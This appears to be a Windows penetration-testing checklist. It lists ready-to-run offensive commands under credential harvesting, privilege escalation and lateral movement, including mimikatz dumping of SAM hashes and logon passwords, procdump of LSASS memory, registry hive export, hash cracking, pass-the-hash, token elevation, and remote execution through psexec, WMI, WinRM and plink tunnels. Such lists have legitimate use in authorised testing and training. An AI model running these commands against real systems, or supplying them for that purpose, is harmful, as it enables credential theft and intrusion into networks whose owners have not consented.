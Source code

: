 # Credential Harvesting
- [ ] **SAM/LSASS Dumping:** Extract password hashes from SAM or memory using tools like `mimikatz` or `procdump`.
    - `mimikatz "privilege::debug" "lsadump::sam"`
    - `procdump -ma lsass.exe lsass.dmp`
- [ ] **Registry Dump:** Dump Windows registry for stored credentials.
    - `reg save HKLM\SYSTEM <path_to_save>`
    - `reg save HKLM\SAM <path_to_save>`
- [ ] **Credential Files:** Search for credentials in configuration files or saved files.
    - `findstr /si password *.txt`
- [ ] **Password Spraying/Brute Force:** Crack password hashes using tools like `Hashcat` or `John the Ripper`.
    - `hashcat -m 1000 hashes.txt wordlist.txt`
- [ ] **Kerberos Ticket Extraction (Pass-the-Ticket):** Extract and reuse Kerberos tickets.
    - `mimikatz "kerberos::list"`
- [ ] **Dump Credentials from Memory:** Use `mimikatz` to dump plaintext credentials from memory.
    - `mimikatz "sekurlsa::logonpasswords"`
- [ ] **Network Traffic Analysis:** Capture network traffic to intercept credentials.
    - `tcpdump -i <interface> -w capture.pcap`

# Privilege Escalation
- [ ] **Unquoted Service Paths:** Check for misconfigured services with unquoted paths.
    - `wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\" | findstr /i /v """
- [ ] **Weak File Permissions:** Look for files or services with weak permissions.
    - `icacls <file_or_directory>`
- [ ] **DLL Hijacking:** Identify vulnerable DLLs for hijacking.
    - `Process Monitor` or `Autoruns`
- [ ] **Insecure Service Configurations:** Check for services running with SYSTEM privileges that can be exploited.
    - `sc qc <service_name>`
- [ ] **Sudo Equivalent (Admin Rights Misconfiguration):** Check for user accounts in the Administrators group.
    - `net localgroup administrators`
- [ ] **Token Impersonation:** Use `mimikatz` to perform token impersonation and escalate privileges.
    - `mimikatz "privilege::debug" "token::elevate"`
- [ ] **Kernel Exploits:** Leverage kernel-level vulnerabilities to escalate privileges.
    - e.g., `CVE-2021-1675 (PrintNightmare)`

# Lateral Movement/Pivoting/Tunneling
- [ ] **PSEXEC:** Execute commands on remote hosts using `psexec`.
    - `psexec \\<target_ip> -u <user> -p <password> cmd`
- [ ] **WMI:** Use WMI to execute commands on remote systems.
    - `wmic /node:<target_ip> process call create <command>`
- [ ] **RDP:** Leverage RDP for lateral movement.
    - `mstsc /v:<target_ip>`
- [ ] **Remote PowerShell:** Use PowerShell Remoting for lateral movement.
    - `Enter-PSSession -ComputerName <target_ip> -Credential <user>`
- [ ] **SMB Shares:** Move laterally by accessing SMB shares.
    - `net use \\<target_ip>\C$ /user:<domain>\<user> <password>`
- [ ] **Pass-the-Hash:** Use tools like `mimikatz` to pass the hash for lateral movement.
    - `mimikatz "sekurlsa::pth"`
- [ ] **WinRM:** Use WinRM to remotely execute commands.
    - `evil-winrm -i <target_ip> -u <username> -p <password>`
- [ ] **ProxyChains:** Use `ProxyChains` to pivot traffic through compromised systems.
- [ ] **Port Forwarding:** Use `plink` for port forwarding to establish a pivot.
    - `plink -L <local_port>:<target_ip>:<remote_port> <user>@<jump_host>`

